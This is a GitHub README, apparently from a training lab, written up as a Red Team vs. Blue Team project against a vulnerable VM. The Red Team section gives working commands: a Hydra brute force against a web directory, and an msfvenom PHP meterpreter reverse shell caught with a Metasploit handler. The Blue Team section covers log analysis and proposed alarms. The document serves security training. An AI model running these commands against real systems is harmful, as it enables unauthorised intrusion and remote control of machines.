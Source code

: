 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

-	I then logged into the secret folder and found a personal note in it.

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.


-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

-	I then uploaded the shell into the webdav directory.

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command shell and went back to the root directory and then listed the directories and found the flag.



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested



## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
